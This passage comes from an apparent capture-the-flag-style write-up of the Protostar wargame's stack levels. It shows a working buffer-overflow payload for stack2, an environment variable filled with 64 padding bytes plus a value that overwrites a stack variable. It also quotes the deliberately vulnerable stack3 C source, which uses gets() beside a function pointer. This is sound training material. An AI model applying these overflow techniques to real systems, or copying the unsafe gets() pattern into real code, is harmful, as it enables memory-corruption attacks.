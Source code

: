 After inspecting the stack, we need to assign "GREENIE" with a padding of 16 * 4 bytes, followed by 4 more bytes of `0x0d0a0d0a` in little-endian format.

Done, we pass the level :D

``` shell
user@protostar:/opt/protostar/bin$ export GREENIE=$(python -c 'print "A" * 16 * 4 + "\x0a\x0d\x0a\x0d"')
user@protostar:/opt/protostar/bin$ ./stack2
you have correctly modified the variable
```

## Stack 3

Description:

>Stack3 looks at environment variables, and how they can be set, and overwriting function pointers stored on the stack (as a prelude to overwriting the saved EIP)<br><br>
>Hints:<br>
>both gdb and objdump is your friend you determining where the win() function lies in memory.<br><br>
> This level is at /opt/protostar/bin/stack3

Source code:

```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

void win()
{
  printf("code flow successfully changed\n");
}

int main(int argc, char **argv)
{
  volatile int (*fp)();
  char buffer[64];

  fp = 0;

  gets(buffer);

  if(fp) {
      printf("calling function pointer, jumping to 0x%08x\n", fp);
      fp();
  }
}
```

In this level, **\*fp()** is actually a function pointer that holds the address of a function. Our goal is to make it point to the **win** function to solve the level. But how can we do that? The answer is obvious, by using **gets**.
